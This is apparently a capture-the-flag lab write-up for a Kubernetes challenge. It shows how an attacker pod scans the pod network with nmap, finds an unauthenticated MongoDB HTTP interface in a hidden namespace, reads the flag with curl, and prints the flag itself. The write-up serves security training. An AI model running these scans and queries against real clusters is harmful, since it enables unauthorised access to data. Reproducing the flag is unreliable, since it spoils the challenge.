 # Challenge 23 - K8 Security - Namespace Bypass

**Challenge Type:** Breaker


There is a hidden namespace which has a running mongodb instance. The goal is to find the instance and find the flag.

1.  Install an attacker container

```json
kubectl apply -f challenge23/pentest_tools.yaml
```

2.  Log into the attacker container

```json
kubectl get pods
```

![[Pasted image 20220309225609.png]]

```json
kubectl exec -it challenge23-attacker-8bd985cb5-lk6dt -- bash
```

3.  once in the container, get its ip. I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved (!!)

```json
ifconfig
```

![namespace](/screenshots/Pasted%20image%2020220309225621.png)

4.  Lets trigger an nmap scan. We know from a previous challenge mongodb is the db of choice, lets look up its ports to find where mongo is.

```json
nmap --open -p27017,28017 100.96.1.24/24
```

5.  We see a host that has these open. What is port 28017??

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/listDatabases

```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl <http://100.96.1.75:28017/listDatabases>
{ "databases" : [ { "name" : "k8ctf", "sizeOnDisk" : 32768, "empty" : false }, { "name" : "local", "sizeOnDisk" : 65536, "empty" : false } ], "totalSize" : 98304, "ok" : 1 }
```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/k8ctf/flag/

```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/k8ctf/flag/
{
  "offset" : 0,
  "rows": [
    { "_id" : { "$oid" : "609436d401aa2523a69b0e73" }, "name" : "k8_ctf{FouNdY0Ur4dminN4mESpAcE}" }
  ],

  "total_rows" : 1 ,
  "query" : {} ,
  "millis" : 0
}
```

Exit

```json
exit
```

So where is this mongo running?

```json
kubectl get pods
kubectl get namespaces
kubectl get pods --all-namespaces
```

```
NAMESPACE              NAME                                                    READY   
admin                  challenge23-65497d5f55-z2sml                            1/1    
default                challenge23-attacker-56dd74986d-82ncz                   1/1     
```

![ns](/screenshots/Pasted%20image%2020220309225646.png)
> 🏁 Challenge 23 Flag - `k8_ctf{FouNdY0Ur4dminN4mESpAcE}`



Don't delete the pentest tools deploy